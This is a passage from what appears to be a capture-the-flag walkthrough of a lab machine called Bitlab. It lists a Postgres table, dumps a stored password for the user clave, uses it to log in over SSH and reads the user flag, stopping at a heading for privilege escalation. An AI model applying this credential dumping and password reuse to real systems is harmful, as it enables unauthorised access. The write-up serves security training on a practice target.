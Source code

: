 I can list tables in the current db, profiles:

```

profiles=> \dt
          List of relations
 Schema |   Name   | Type  |  Owner   
--------+----------+-------+----------
 public | profiles | table | profiles
(1 row)

```

I’ll grab everything from the one table:

```

profiles=> select * from profiles;
 id | username |        password        
----+----------+------------------------
  1 | clave    | c3NoLXN0cjBuZy1wQHNz==
(1 row)

```

### SSH

While that may look base64 encoded, it’s actually clave’s password. I can connect over ssh from here:

```

root@kali# ssh clave@10.10.10.114
The authenticity of host '10.10.10.114 (10.10.10.114)' can't be established.
ECDSA key fingerprint is SHA256:hNHxoptKsWqkzdME7Bfb+cGjskcAAGySJazK+gDDCHQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.114' (ECDSA) to the list of known hosts.
clave@10.10.10.114's password: 
Last login: Thu Aug  8 14:40:09 2019
clave@bitlab:~$

```

And now I can grab `user.txt`:

```

clave@bitlab:~$ cat user.txt
1e3fd81e************************

```

## Priv: clave –> root

### Enumeration
